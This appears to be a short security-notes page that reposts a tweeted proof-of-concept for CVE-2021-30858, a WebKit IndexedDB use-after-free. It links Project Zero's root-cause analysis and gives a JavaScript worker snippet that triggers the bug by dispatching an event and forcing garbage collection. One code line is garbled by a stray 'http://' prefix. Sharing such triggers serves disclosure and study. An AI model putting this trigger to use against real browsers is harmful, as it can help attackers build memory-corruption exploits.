```yaml
---
layout: ../../templates/cybersec_page.astro
title: Apple's IndexDB Has A Tweetable Exploit
direct_link: https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html
---
```


By [@maddiestone](https://twitter.com/maddiestone/status/1486402800103792645?s=21):

```js
index.html:
<script>w = new Worker('idbworker.js');</script>

idbworker.js:
function gc() {
   for (var i = 0; i < 1000; i++) { a = new Uint8Array(1024*1024); }
}

let ev = new Event('mine');
let req = http://indexedDB.open('db');
req.dispatchEvent(ev);
req = 0;
ev = 0;
gc();
```
